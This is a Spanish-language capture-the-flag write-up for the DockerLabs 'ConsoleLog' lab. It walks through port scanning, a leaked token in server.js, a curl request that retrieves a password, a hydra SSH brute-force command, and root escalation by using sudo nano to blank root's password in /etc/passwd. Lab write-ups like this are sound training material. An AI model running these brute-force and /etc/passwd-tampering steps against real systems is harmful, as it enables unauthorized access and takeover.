

repository: scarlgyx/scarlgyx-cybersecurity · page: writeups/dockerlabs/consolelog/index.html · generator: mkdocs

# ConsoleLog

*80/tcp   open  http    Apache httpd 2.4.61 ((Debian))*
*3000/tcp open  http    Node.js Express framework*
*5000/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u3 (protocol 2.0)*

Al usar gobuster se encuentra un */backend*, donde hay un archivo llamado *server.js*, se ve que se le puede enviar una petición POST en el puerto 3000 y si el token es ***tokentraviesito***, devuelve la contraseña ***lapassworddebackupmaschingonadetodas***

![](../../assets/img/Pasted_image_20251009152554.png)

Algunos endpoints requieren de pasarle el parámetro por JSON en lugar de cadena simple:
`curl -X POST http://172.17.0.2:3000/recurso/ -H "Content-Type: application/json" -d '{"token":"tokentraviesito"}'`
-X : tipo de petición HTTP
-H : tipo cabecera
-d : datos del cuerpo de la petición

![](../../assets/img/Pasted_image_20251009154000.png)

Hacemos fuerza bruta para ususario con *hydra*
`hydra -L /usr/share/wordlists/rockyou.txt -p lapassworddebackupmaschingonadetodas ssh://172.17.0.2:5000`
**lovely**

## Escalada

*(ALL) NOPASSWD: /usr/bin/nano*

abriremos con nano el archivo */etc/passwd* para borrarle la contraseña al usuario root
`sudo -u root nano /etc/passwd`
*root::0:0:root:/root:/bin/bash*
`su root`
**root**
